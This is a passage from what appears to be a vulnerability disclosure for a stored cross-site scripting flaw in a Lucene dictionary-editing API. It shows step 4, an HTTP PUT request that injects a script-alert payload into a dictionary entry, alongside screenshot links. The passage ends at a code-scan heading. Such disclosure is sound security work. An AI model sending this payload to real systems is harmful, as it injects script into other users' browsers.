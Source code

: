 **Response:**
![img.png](image/dic_img_3.png)

---

### Step 4: Malicious Dictionary Update

**Request:**
```http
PUT /api/lucene/dic/editDic HTTP/1.1
Host: 198.18.0.1:3000
fingerprint: 00ca00ef0022001b
Referer: http://198.18.0.1:3000/portfolios?page=1
Content-Type: application/json
Accept: application/json

{"id":1,"dic":"<script>alert('XSS')</script>"}
```

**Response:**
![img.png](image/dic_img_4.png)

## Code Scan Evidence

### Discovery via Static Analysis
